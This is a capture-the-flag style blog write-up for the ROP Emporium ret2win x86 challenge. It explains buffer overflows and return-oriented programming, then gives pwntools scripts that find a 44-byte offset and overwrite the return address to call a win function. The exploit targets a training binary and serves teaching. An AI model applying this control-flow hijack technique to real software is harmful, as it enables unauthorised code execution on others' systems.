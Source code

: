 ```yaml
---
layout: post
title:  "ROP Emporium ret2win Writeup (x86)"
date:   2024-05-31 13:15:45 -0400
categories: rop-emporium challenge-1
tags: rop-emporium ret2win x86 writeup buffer-overflow rop reverse-engineering 32-bit
---
```

## Introduction
[ROP Emporium](https://ropemporium.com/index.html){:target="_blank"}{:rel="noopener noreferrer"}
provides a series of challenges to learn and practice
Return Oriented Programming (ROP). This is the
[first challenge](https://ropemporium.com/challenge/ret2win.html){:target="_blank"}{:rel="noopener noreferrer"}
of eight.

> This is what a hint will look like!
{: .prompt-tip }

### What is Return Oriented Programming?
#### Buffer Overflows
When a program needs to write data to memory,
it will need to reserve a space for that data to be stored
(a buffer).
As long as the data being written is less than or equal
to the buffer size, things are fine.

But what happens when the data being written is larger
than the buffer? Once the reserved space is filled, the program
will continue writing past the buffer. If it's located
on the stack, it will overwrite key values the program
needs to run as intended. 

One of these values sets the `instruction pointer`.
This tells the program the location of the next
instructions to execute. Whenever a function returns,
it will `pop` a value off of the stack and set that
to the instruction pointer.
By controlling this value, we essentially control 
the flow of the program.

![stack-bof](/images/ret2win/stack-bof.png)

How can we abuse this? First we write instructions into the
buffer. Then we force the instruction pointer (`EIP` in
the image) to point
to that buffer. This will make the next instructions
the program runs completely controlled by the attacker.
We've achieved arbitrary code execution!

But as attacks improve so do defenses. When compiled
with a non executable stack, the program no longer
executes code in locations that can be written to.
This fixes the described
[stack buffer overflow](https://en.wikipedia.org/wiki/Stack_buffer_overflow){:target="_blank"}{:rel="noopener noreferrer"}
vulnerability, but we
still have enough resources to achieve arbitrary
code execution...

#### Return Oriented Programming
Rather than injecting our own instructions, we can
reuse the instructions that are already there! The
catch is we can only use a block of instructions
that end in a `ret` instruction. This is where
the `Return` part of `Return Oriented Programming`
gets its name! 

What makes the `ret` instruction so special? If you
recall, the instruction pointer only gets updated 
when a function returns. If we want to run the 
following instructions

```nasm
pop rax
pop rbx
mov [rax], rbx
```

it may not exist in the binary in that form. However,
if we can find each individual instruction somewhere
in the binary followed by a `ret`, we can chain
these blocks together essentially achieving
the same result

```nasm
pop rbx
ret
...
mov [rax], rbx
ret
...
pop rax
ret
```

These blocks of instructions which end in a `ret` 
instruction are also known as `gadgets`.

So by reusing instructions found before a `ret` instruction
we can chain an arbitrary number of gadgets to complete
almost any task. There will be limitations based on
the stack size, the available gadgets, as well as
a hacker's ability to find a non trivial path, but that's
where the fun is!

## Tools
To make exploit development easier I'll be using
the following tools for all challenges

[Radare2](https://github.com/radareorg/radare2){:target="_blank"}{:rel="noopener noreferrer"}
is a powerful commandline tool which makes
binary analysis and reverse engineering easier. It'll
help us find useful gadgets and addresses.

[Pwndbg](https://github.com/pwndbg/pwndbg){:target="_blank"}{:rel="noopener noreferrer"}
is a plugin for GDB which helps exploit developing.
This will make it easier to see how our payload changes
the control flow of the vulnerable program.

[Pwntools](https://github.com/Gallopsled/pwntools){:target="_blank"}{:rel="noopener noreferrer"}
is a python library which will be used to
build and send our payload to the vulnerable program.

## Program Protections
Since this is a ROP challenge we know the stack won't
be executable. Just to be sure we can run
```bash
checksec ret2win32
```
![checksec](/images/ret2win/x86-checksec.png)

The `NX` flag is set meaning you can't execute code from
a writable part of memory. We're also dealing with
a 32 bit binary using little endian.

> This will be the same for every challenge
{: .prompt-info }

## Buffer Size
> Use the `cyclic` function and command in `pwntools`
> and `pwndbg`
{: .prompt-tip }
We need to know how big the buffer is before we start
overwriting the instruction pointer. We can use the
`cyclic()` function from pwntools to find the exact
offset. We just need to run the following
```python
#!/bin/python3
from pwn import *

# set terminal gdb will run in
# replace 'kitty' with your terminal
# context.terminal = ['kitty']

# create payload
payload = cyclic(60, n=4)

# debug rop chain
io = gdb.debug('./ret2win32', '''
               b pwnme
               c
               ''')
io.sendline(payload)

# keep the program alive
io.interactive()
```
The python code will stop when the pwnme function is
called. Continue the program with `continue` and
wait for the program to crash. To get the offset we
can run
```
cyclic -l 0x6161616c -n 4
```
![offset](/images/ret2win/x86-offset.png)

Our offset is 44 bytes. After this, we're able to control
where the program will return to.

> This will be the same for every x86 challenge
{: .prompt-info }


## Exploit Crafting
According to the
[challenge page](https://ropemporium.com/challenge/ret2win.html){:target="_blank"}{:rel="noopener noreferrer"}
our goal is to call the function `ret2win`
### Function Address
> You can use radare2 to list function addresses
{: .prompt-tip }

Using `radare2` we can analyze a binary by
running `aaa`. To list functions with their
addresses we can run `afl`
![ret2win-addr](/images/ret2win/x86-ret2win-addr.png)

So the address of `sym.ret2win` is `0x0804862c`

## Exploit
Now we have everything we need to build the exploit
```python
#!/bin/python3
from pwn import *

# create payload
ret2win_addr = 0x0804862c
# fill buffer + rbp
payload = b'A'*44
# adds the proper 32 bit padding
# and uses little endian
payload += p32(ret2win_addr)

# send payload
io = process('./ret2win32')
io.sendline(payload)

# retrieve flag
io.recvuntil(b'flag:\n')
flag = io.recvline()
success(flag)
```
![flag](/images/ret2win/x86-flag.png)

## Conclusion
This challenge is fairly straightforward but being able
to control the `instruction pointer` is the
basis for all challenges going forward. Since the goal
of ROP Emporium is to teach ROP in isolation, all
`x86` challenges will use the same offset
of `44 bytes` and will have the same compiled protections.
For the sake of brevity, I won't go over finding the
protections and offset in every challenge.

[Next Challenge (split)]({% post_url 2024-06-01-rop-emporium-split-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}

[ret2win x64]({% post_url 2024-05-31-rop-emporium-ret2win-x64%}){:target="_blank"}{:rel="noopener noreferrer"}
